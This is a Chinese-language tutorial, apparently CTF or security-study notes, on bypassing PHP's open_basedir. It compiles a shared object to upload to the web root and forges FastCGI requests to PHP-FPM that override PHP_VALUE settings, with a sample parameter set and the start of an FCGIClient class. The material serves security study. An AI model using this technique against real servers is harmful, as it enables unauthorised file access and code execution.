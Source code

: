 ```
gcc hpdoger.c -fPIC -shared -o hpdoger.so
```

注意的是用macos和linux编译是不同的，得用linux编译，编译完后上传至`/var/www/html`

### 伪造FastCGI请求PHP-CGI

同样写在html目录

>用户访问`http://127.0.0.1/index.php?a=1&b=2`，如果web目录是/var/www/html，那么Nginx会将这个请求变成如下key-value对：
>
>> {
>> 'GATEWAY_INTERFACE': 'FastCGI/1.0',
>> 'REQUEST_METHOD': 'GET',
>> 'SCRIPT_FILENAME': '/var/www/html/index.php',
>> 'SCRIPT_NAME': '/index.php',
>> 'QUERY_STRING': '?a=1&b=2',
>> 'REQUEST_URI': '/index.php?a=1&b=2',
>> 'DOCUMENT_ROOT': '/var/www/html',
>> 'SERVER_SOFTWARE': 'php/fcgiclient',
>> 'REMOTE_ADDR': '127.0.0.1',
>> 'REMOTE_PORT': '12345',
>> 'SERVER_ADDR': '127.0.0.1',
>> 'SERVER_PORT': '80',
>> 'SERVER_NAME': "localhost",
>> 'SERVER_PROTOCOL': 'HTTP/1.1'
>> }

- 通过在FastCGI协议修改PHP_VALUE字段进而修改php.ini中的一些设置，而open_basedir 同样可以通过此种方法进行设置。比如：`$php_value = "open_basedir = /";`
- 因为FPM没有判断请求的来源是否必须来自Webserver。根据PHP解析器的流程，我们可以伪造FastCGI向FPM发起请求，PHP_VALUE相当于改变.ini中的设置，覆盖了本身的open_basedir

```php
<?php
/**
 * Note : Code is released under the GNU LGPL
 *
 * Please do not change the header of this file
 *
 * This library is free software; you can redistribute it and/or modify it under the terms of the GNU
 * Lesser General Public License as published by the Free Software Foundation; either version 2 of
 * the License, or (at your option) any later version.
 *
 * This library is distributed in the hope that it will be useful, but WITHOUT ANY WARRANTY;
 * without even the implied warranty of MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.
 *
 * See the GNU Lesser General Public License for more details.
 */
/**
 * Handles communication with a FastCGI application
 *
 * @author      Pierrick Charron <pierrick@webstart.fr>
 * @version     1.0
 */
class FCGIClient
{
    const VERSION_1            = 1;
    const BEGIN_REQUEST        = 1;
    const ABORT_REQUEST        = 2;
    const END_REQUEST          = 3;
    const PARAMS               = 4;
    const STDIN                = 5;
    const STDOUT               = 6;
```